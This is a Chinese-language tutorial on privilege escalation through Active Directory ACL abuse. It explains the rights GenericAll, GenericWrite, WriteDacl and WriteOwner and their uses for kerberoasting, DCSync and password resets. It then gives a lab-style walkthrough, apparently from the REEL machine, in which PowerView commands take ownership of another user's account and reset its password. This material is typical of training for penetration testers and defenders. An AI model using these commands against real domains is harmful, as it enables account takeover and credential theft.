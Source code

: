 - GenericAll/GenericWrite ：此权限能够更新目标对象的属性值。  
  
1、可以给目标账户设置一个SPN服务，然后请求白银票据，获取hash进行一个kerberoast。  
  
2、可以改变用户的UAC，然后在指定kerberos不进行域认证。  
  
- GenericWrite  
  
1、重置其他用户的密码。  
  
- WriteProperty ：这个权限利用针对的对象为组对象，能够赋予账户对于某个组的可写权限。  
  
- WriteDacl ：攻击者可以添加或删除特定的访问控制项，从而使他们可以授予自己对对象的完全访问权限。  
  
1、给予用户DcSync权限，当前用户可以直接在任何机器上dump域控上的所有用户hash。  
  
- WriteOwner  
  
1、可以修改目标对象的拥有者。也就是说将对象的拥有者更改为攻击者所能控制的。  
  
快速查看域内拥有WriteProperty权限的账户：  

```
Get-DomainObjectAcl | Where-Object {$_.ActiveDirectoryRight -eq &#34;WriteProperty&#34;}

```

  
https://www.c0bra.xyz/2021/02/07/域渗透-Windows下的访问控制列表及DCSync/  
# 权限提升路径  
  
  
Untitled  
# 实例1  
  
当前用户是tom，查看当前组。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfP1MzjyZ9b66WxMd6fEdZrniaiaIv59wxBL3LCvduZwfr2BjiaM7FicmJNdw/640?wx_fmt=png&from=appmsg "")  
  
假设当前用户获取到Backup_Admins组到权限，在工具中查询。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeUFVJwPlkJbNYh1gmYJMicfPvcibeTdlBzYuwu1pIYyic8icjvPrIhvQ5y50NibClaTw9CLFrg8NcLOcmg/640?wx_fmt=png&from=appmsg "")  
  
1、tom -> claire：  
  
tom拥有对claire的权限WriteOwner。  

```
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound>powershell                                                                    
Windows PowerShell                                                                                                              
Copyright (C) 2014 Microsoft Corporation. All rights reserved.                                                                  

PS C:\Users\tom\Desktop\AD Audit\BloodHound> . .\PowerView.ps1
//将tom用户设置为claire的ACL的拥有者。                                                    
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -identity claire -OwnerIdentity tom                          
//在ACL中给tom修改密码的权限。
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPass
word
//设置新密码                                                                                                                            
PS C:\Users\tom\Desktop\AD Audit\BloodHound> $cred = ConvertTo-SecureString &#34;qwer1234QWER!@#$&#34; -AsPlainText -force              
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -identity claire -accountpassword $cred                     
PS C:\Users\tom\Desktop\AD Audit\BloodHound>
```